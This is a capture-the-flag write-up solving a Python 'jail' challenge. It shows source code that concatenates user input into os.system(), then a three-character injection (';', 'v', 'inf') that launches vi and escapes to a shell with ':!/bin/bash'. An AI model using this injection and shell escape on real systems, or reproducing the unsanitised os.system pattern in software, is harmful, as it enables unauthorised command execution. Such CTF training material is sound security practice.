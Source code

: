 ## Description

Do you know how to escape from a jail?

**source code available**

## Solution

let's connect to the server :

```
└─$  ncat --ssl j4il.hackini24.shellmates.club 443
a = a
b = b
c = c
No No No, you can't do that!
```

let's check the source code :

```python
import os
try:
    a = input('a = ')[0]
    b = input('b = ')[0]
    c = str(float(input('c = ')))[0]
    assert all([len(i)>0 for i in [a,b,c]])

    os.system("echo you cant break me hehe ... " + a+b+c)
except:
    print('No No No, you can\'t do that!')
```

interesting, so the scrip only grabs the first character from the three variables where is our input, and in the third variable, our input is getting converted to a `float`, then all the three variable first characters will be passed to the echo command.

so obviously we can do a command injection, but we are limited to only three characters, so the first character should be `;` to break from the command and execute a new one, so we're left with two characters, and the last one should be a number cause it's getting converted to a float.

so we need to find an interesting command with only two characters, we immediately think of `vi`, as we can get command execution with it, the problem is that in `c`, we can only specify a number, or can we specify something else ?

in float, we can use the term `inf` which stands for `infinity`, and when the script grabs the first character it should be `i`, let's try it out :

```
a = ;
b = v
c = inf
```

if we send this, the final command should look like this :

```bash
echo you cant break me hehe ... ;vi
```

when we send it, we get a `vi` interface :

![vi](images/vi.png)

that worked, now we can get an interactive shell by running `:!/bin/bash` in vi :

![flag](images/flag.png)

we see that we got an interactive shell and we got the flag.

- flag: `shellmates{e5C4pe_fR0M_py7h0n_70_$h}`

